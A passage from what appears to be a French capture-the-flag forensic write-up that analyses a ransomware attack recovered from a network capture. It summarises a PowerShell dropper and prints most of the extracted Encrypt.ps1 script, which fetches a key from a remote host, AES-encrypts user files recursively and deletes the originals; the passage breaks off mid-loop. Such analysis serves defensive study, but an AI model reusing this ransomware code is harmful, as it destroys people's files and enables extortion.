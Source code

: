 Ce script powershell fait plusieurs choses:

- Télécharge et execute un second script `Encrypt.ps1` (on y revient juste après)
- Télécharge et change le fond d’écran de la victime
- Créé un fichier texte à destination de cette dernière avec des instructions pour récupérer ses fichiers

Extrayons `Encrypt.ps1` du dump réseau (dans Wireshark > Fichier > Export Objet > HTTP) et creusons-le:

```powershell
# Define the directories to search for files
$IP_addr = '172.21.195.17:5000'
$directories = @("$env:USERPROFILE")

# Define the file extensions to encrypt
$extensions = @(".png", ".doc", ".txt", ".zip")
$keyUrl = "http://$IP_addr/Holmes/key.txt"

# Download the key from the URL
$keyContent64 = Invoke-WebRequest -Uri $keyUrl | Select-Object -ExpandProperty Content
$keyContent = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($keyContent64))

# Use SHA-256 hash function to produce a 32-byte key
$sha256 = [System.Security.Cryptography.SHA256]::Create()
$key = $sha256.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($keyContent))
$iv = [System.Security.Cryptography.RijndaelManaged]::Create().IV

# Sauvegarder l'IV dans un fichier
$ivFilePath = "$env:USERPROFILE\Documents\iv"
[System.IO.File]::WriteAllBytes($ivFilePath, $iv)

# Create a new RijndaelManaged object with the specified key
$rijndael = New-Object System.Security.Cryptography.RijndaelManaged
$rijndael.Key = $key
$rijndael.IV = $iv
$rijndael.Mode = [System.Security.Cryptography.CipherMode]::CBC
$rijndael.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7


# Go through each directory
foreach ($dir in $directories) {
    # Go through each file
    Get-ChildItem -Path $dir -Recurse | ForEach-Object {
        # Check the file extension
        if ($extensions -contains $_.Extension) {
            # Generate the new file name
            $newName = $_.FullName -replace $_.Extension, ".shutlock"

            # Read the file contents in bytes
            $contentBytes = [System.IO.File]::ReadAllBytes($_.FullName)

            # Create a new encryptor
            $encryptor = $rijndael.CreateEncryptor()

            # Encrypt the content
            $encryptedBytes = $encryptor.TransformFinalBlock($contentBytes, 0, $contentBytes.Length)

            # Write the encrypted content to a file
            [System.IO.File]::WriteAllBytes($newName, $encryptedBytes)

            # Delete the original file
            Remove-Item $_.FullName
```